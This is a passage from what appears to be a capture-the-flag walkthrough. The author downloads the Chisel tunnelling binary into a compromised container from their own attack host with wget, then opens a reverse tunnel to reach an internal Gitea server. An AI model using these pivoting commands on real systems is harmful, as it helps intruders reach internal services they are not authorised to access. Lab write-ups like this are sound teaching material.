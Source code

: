 

    /app # wget 172.17.0.1:3000 -O-
    Connecting to 172.17.0.1:3000 (172.17.0.1:3000)
    writing to stdout
    <!DOCTYPE.md>
    .md>
    <head>
            <meta charset="utf-8">
            <meta name="viewport" content="width=device-width, initial-scale=1">
            <title> Gitea: Git with a cup of tea</title>
    ...[snip]...



It's an instance of [Gitea](https://gitea.io/en-us/), an open source Git
management platform.

### Access Gitea

#### Tunnel

I'll use [Chisel](https://github.com/jpillora/chisel) to create a tunnel
from my host through the container to access Gitea. First, I'll download
the latest linux amd64 binary from the [release
page](https://github.com/jpillora/chisel/releases), and host it on my
box using a Python webserver (`python3 -m http.server 8000`). I'll fetch
that file to the container:



    /tmp # wget http://10.10.14.6:8000/chisel_1.7.7_linux_amd64
    Connecting to 10.10.14.6:8000 (10.10.14.6:8000)
    saving to 'chisel_1.7.7_linux_amd64'
    chisel_1.7.7_linux_a 100% |********************************| 7888k  0:00:00 ETA
    'chisel_1.7.7_linux_amd64' saved



I'll run the binary in server mode on my box:



    oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
    2022/09/30 12:47:55 server: Reverse tunnelling enabled
    2022/09/30 12:47:55 server: Fingerprint umHn2gs0l5nc8jxdT2k/Ib4llURm3snZQNzX4WkaERw=
    2022/09/30 12:47:55 server: Listening on http://0.0.0.0:8000



I need to give it a port to listen on (`-p 8000`) because the default
port of 8080 is already in use by Burp. `--reverse` allows me to create
reverse tunnels.

Now I'll connect with `chisel` from the container:



    /tmp # chmod +x chisel_1.7.7_linux_amd64 
    /tmp # ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:3000:172.17.0.1:3000
    2022/09/30 12:52:19 client: Connecting to ws://10.10.14.6:8000
    2022/09/30 12:52:20 client: Connected (Latency 87.429342ms)
